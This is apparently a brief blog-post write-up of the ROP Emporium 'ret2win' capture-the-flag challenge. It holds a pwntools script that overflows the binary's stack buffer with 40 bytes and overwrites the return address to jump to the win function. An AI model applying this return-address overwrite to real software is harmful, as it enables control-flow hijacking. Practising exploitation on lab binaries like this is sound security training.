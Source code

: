 ```yaml
---
layout: post
title:  "ROP-Emporium Writeup"
date:   2021-03-28 11:59:00 +0900
categories: CTF
---
```


## ret2win

```
exp：

from pwn import *

sh = process("./ret2win")

x = b'1'*40 + p64(0x400756)

sh.sendline(x)
sh.interactive()
```